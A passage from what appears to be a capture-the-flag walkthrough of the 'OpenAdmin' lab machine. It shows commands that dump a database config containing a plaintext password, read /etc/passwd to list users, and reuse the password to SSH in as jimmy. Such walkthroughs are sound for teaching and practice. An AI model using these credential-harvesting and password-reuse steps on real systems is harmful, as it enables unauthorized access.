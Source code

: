 Let's have a look at this database settings file:

```text
$ cat local/config/database_settings.inc.php
<?php
$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

Interesting. We've found credentials, let's check the users on this server:

```text
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash

$ ls -ls /home
total 8
4 drwxr-x--- 6 jimmy  jimmy  4096 Jul 26 20:34 jimmy
4 drwxr-x--- 6 joanna joanna 4096 Nov 28  2019 joanna
```

## Jimmy SSH Access

I tried the credentials on the admin page of the website but that didn't work. We know there is SSH open on port 22, so let's try the password with the users we've found:

```text
┌──(root💀kali)-[~]
└─# ssh jimmy@10.10.10.171                          
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ECDSA) to the list of known hosts.
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

  System information as of Mon Jul 26 21:12:23 UTC 2021

Last login: Mon Jul 26 18:09:51 2021 from 10.10.10.171
jimmy@openadmin:~$
```

